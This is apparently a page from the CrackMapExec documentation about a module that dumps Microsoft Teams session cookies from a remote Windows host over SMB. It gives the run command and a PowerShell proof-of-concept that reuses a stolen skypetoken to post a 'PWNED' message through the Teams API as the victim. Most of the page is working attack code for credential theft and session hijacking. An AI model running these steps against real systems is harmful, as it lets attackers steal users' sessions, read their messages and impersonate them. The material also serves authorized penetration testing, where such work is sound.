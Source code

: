 # MS Teams Cookies

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

New CrackMapExec module to dump Microsoft Teams cookies thanks to [@KuiilSec](https://twitter.com/KuiilSec) contribution. You can use them to retrieve information like users, messages, groups etc or send directly messages in Teams.

```
$ crackmapexec smb <ip> -u user -p pass -M teams_localdb
```

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Send the pwned message using this script:

```
# original code from Connor Peoples / https://twitter.com/NoUselessTech
# modified for cme @mpgn_x64 POC

$Token = "skypetoken=YOUR_TOKEN"

    
$Header = @{
    authentication = $Token
    "content-type" = "application/json"
    "x-ms-client-request-id" = [guid]::NewGuid().ToString()
    "x-ms-client-session-id" = [guid]::NewGuid().ToString()
}

$id = ""
(1..19) | ForEach-Object {  
    $id += Get-Random(1..9) 
}

$Url = "https://amer.ng.msg.teams.microsoft.com/v1/users/ME/conversations/48:notes/messages"
$Body = @{
    content ="<p>PWNED</p>"
    messagetype = "RichText/Html"
    contenttype = "text"
    amsreferences = @()
    clientmessageid = $id
    imdisplayname = "Threat Bot"
    properties = @{
        importance = "high"
        subject = "You've Been PWND"
    }
}
    
Invoke-RestMethod `
    -Uri $Url `
    -Method POST `
    -Headers $Header `
    -Body ($Body | ConvertTo-Json)
```
